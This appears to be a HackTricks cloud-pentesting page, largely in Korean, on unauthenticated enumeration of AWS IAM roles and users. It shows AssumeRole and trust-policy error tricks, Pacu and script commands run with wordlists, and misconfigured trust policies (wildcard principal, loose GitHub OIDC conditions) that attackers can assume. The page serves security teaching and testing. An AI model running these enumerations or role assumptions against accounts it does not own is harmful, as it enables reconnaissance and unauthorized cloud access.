 # AWS - IAM & STS 인증되지 않은 열거

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

## 계정에서 역할 및 사용자 이름 열거하기

### ~~역할 가정 브루트포스~~

{% hint style="danger" %}
**이 기술은 더 이상 작동하지 않습니다**. 역할이 존재하든 아니든 항상 다음과 같은 오류가 발생합니다:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

다음 명령어를 실행하여 **테스트할 수 있습니다**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

필요한 권한 없이 **역할을 가정하려고 시도하면** AWS 오류 메시지가 발생합니다. 예를 들어, 권한이 없는 경우 AWS는 다음과 같은 메시지를 반환할 수 있습니다:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
이 메시지는 역할의 존재를 확인하지만, 해당 역할의 가정 정책이 당신의 가정을 허용하지 않음을 나타냅니다. 반대로, **존재하지 않는 역할을 가정하려고 하면 다른 오류가 발생합니다**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
흥미롭게도, **존재하는 역할과 존재하지 않는 역할을 구별하는** 이 방법은 서로 다른 AWS 계정 간에도 적용 가능합니다. 유효한 AWS 계정 ID와 타겟 단어 목록을 사용하면, 본질적인 제한 없이 계정에 존재하는 역할을 열거할 수 있습니다.

이 문제를 악용하여 잠재적인 주체를 열거하는 [스크립트를 사용할 수 있습니다](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum).

### 신뢰 정책: 크로스 계정 역할 및 사용자에 대한 무차별 대입

**IAM 역할의 신뢰 정책을 구성하거나 업데이트하는 것은 해당 역할을 가정할 수 있는 AWS 리소스 또는 서비스를 정의하고 임시 자격 증명을 얻는 것을 포함합니다.** 정책에 지정된 리소스가 **존재하면**, 신뢰 정책은 **성공적으로** 저장됩니다. 그러나 리소스가 **존재하지 않으면**, **오류가 발생**하여 잘못된 주체가 제공되었음을 나타냅니다.

{% hint style="warning" %}
해당 리소스에서 크로스 계정 역할 또는 사용자를 지정할 수 있습니다:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

다음은 정책 예시입니다:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

존재하지 않는 **역할**을 사용하면 이 **오류**를 찾을 수 있습니다. 역할이 **존재**하면 정책이 오류 없이 **저장**됩니다. (오류는 업데이트에 대한 것이지만 생성할 때도 작동합니다)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

In the case the role was bad configured an allows anyone to assume it:  
이 역할이 잘못 구성되어 누구나 이를 가정할 수 있는 경우:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
The attacker could just assume it.

## 제3자 OIDC 연합

Imagine that you manage to read a **Github Actions workflow** that is accessing a **role** inside **AWS**.\
This trust might give access to a role with the following **trust policy**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
이 신뢰 정책은 올바를 수 있지만, **더 많은 조건의 부족**으로 인해 신뢰하지 않아야 합니다.\
이것은 이전 역할이 **Github Actions의 누구나** 가정할 수 있기 때문입니다! 조건에 조직 이름, 저장소 이름, 환경, 브랜치와 같은 다른 사항도 명시해야 합니다...

또 다른 잠재적인 잘못된 구성은 다음과 같은 **조건을 추가하는** 것입니다:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
**콜론** (:) 앞에 **와일드카드** (*)에 유의하세요. **org\_name1**과 같은 조직을 만들고 Github Action에서 **역할을 가정**할 수 있습니다.

## 참고문헌

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
